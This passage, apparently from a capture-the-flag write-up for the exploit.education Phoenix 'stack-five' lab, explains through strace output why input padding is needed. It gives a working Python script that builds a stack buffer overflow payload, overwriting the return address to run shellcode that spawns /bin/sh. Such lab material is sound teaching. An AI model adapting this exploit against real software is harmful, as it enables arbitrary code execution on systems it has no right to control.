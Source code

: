 ```console
+++ exited with 0 +++
```

Notice this time `gets()` calls `read()` only once,
```console
read(0, "UH\211\345H\203\354\20H\277/bin/sh\0H\211|$\370H\215|$\370\276\0\0\0"..., 1024) = 160
execve("/bin/sh", NULL, NULL)           = 0
```
as opposed to previously (before we terminated our exploit with `\n`):
```console
read(0, "UH\211\345H\203\354\20H\277/bin/sh\0H\211|$\370H\215|$\370\276\0\0\0"..., 1024) = 144
read(0, "", 1024)                       = 0
execve("/bin/sh", NULL, NULL)           = 0
```
This happens because it needed to read again to verify it reached `EOF`, but when we pass a `\n` it knows to stop reading.

The problem is `read()` is called with a size of 1024 and thus it reads the whole input (including our commands following the `\n`) before shell is allowed to read them.

We can fix this by padding the exploit to 1024 bytes.
```python
from pwn import p64

BUFFER_SIZE = 128
BUFFER_ADDRESS = 0x7fffffffe560
RETURN_ADDRESS = 0x7fffffffe5e8

READ_SIZE = 1024

COMMAND = 'id;echo pwned!\n'

with open('shellcode.bin' ,'rb') as f:
    payload = f.read()

# payload should fit in buffer
assert(len(payload) <= BUFFER_SIZE)

# generate input for filling the buffer
buffer_smash = payload + 'A' * (BUFFER_SIZE - len(payload))
# generate input for filling gap between buffer and return address + overwrite return with buffer address
stack_smash = 'A' * (RETURN_ADDRESS - BUFFER_ADDRESS - BUFFER_SIZE) + p64(BUFFER_ADDRESS)

# generate padding before command
command_padding = '\n' + 'A' * (READ_SIZE - len(buffer_smash) - len(stack_smash) - 1)

with open('exploit.bin', 'wb') as f:
    f.write(buffer_smash + stack_smash + command_padding + COMMAND)
```
```console
user@phoenix-amd64:~$ strace /opt/phoenix/amd64/stack-five < exploit.bin
execve("/opt/phoenix/amd64/stack-five", ["/opt/phoenix/amd64/stack-five"], [/* 18 vars */]) = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7ffdbc8) = 0
set_tid_address(0x7ffff7ffdc08)         = 1102
mprotect(0x7ffff7ffa000, 4096, PROT_READ) = 0
ioctl(1, TIOCGWINSZ, {ws_row=62, ws_col=116, ws_xpixel=0, ws_ypixel=0}) = 0
writev(1, [{iov_base="Welcome to phoenix/stack-five, b"..., iov_len=74}, {iov_base="\n", iov_len=1}], 2Welcome to phoenix/stack-five, brought to you by https://exploit.education
) = 75
read(0, "UH\211\345H\203\354\20H\277/bin/sh\0H\211|$\370H\215|$\370\276\0\0\0"..., 1024) = 1024
execve("/bin/sh", NULL, NULL)           = 0
brk(NULL)                               = 0x555555773000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=23717, ...}) = 0
```